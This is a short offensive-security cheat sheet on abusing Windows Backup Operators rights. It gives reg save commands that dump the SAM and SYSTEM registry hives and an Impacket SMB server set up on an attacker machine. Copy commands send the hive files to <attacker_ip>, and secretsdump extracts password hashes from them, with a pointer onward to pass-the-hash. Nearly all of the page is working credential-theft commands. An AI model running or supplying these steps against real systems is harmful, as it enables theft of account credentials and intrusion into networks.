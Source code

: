 # Backup Operators Group

\#The **SAM** (Security Account Manager) database in Windows stores user account credentials, and the **SYSTEM** file holds the boot key necessary to decrypt these credentials. \
The **Backup Operators** group can bypass file permissions to back up sensitive files like these.

### **1. Backup SYSTEM and SAM Files**

The **`hklm\sam`** and **`hklm\system`** registry hives correspond to the SAM and SYSTEM files.

```batch
reg save hklm\sam C:\temp\sam.backup
reg save hklm\system C:\temp\system.backup
```

### 2. Transfer the Files Using SMB

On your **attacker machine**, set up a simple SMB server with Impacket.&#x20;

```bash
impacket-smbserver <share_name> <dest_folder_path> -smb2support
```

From the **target machine**, copy the backed-up files to the share on the attacker machine.

```batch
copy C:\temp\sam.backup \\<attacker_ip>\<share_name>\sam.backup
copy C:\temp\system.backup \\<attacker_ip>\<share_name>\system.backup
```

### 3. Extracting the hashes

Now that the **SAM** and **SYSTEM** files are transferred to the attacker machine, it's possible extract password hashes from them using **impacket-secretsdump**.

```bash
impacket-secretsdump -sam sam.backup -system system.backup LOCAL
```

### 4. Pass The Hash

[#pass-the-hash](../ntlm-hashes.md#pass-the-hash "mention")
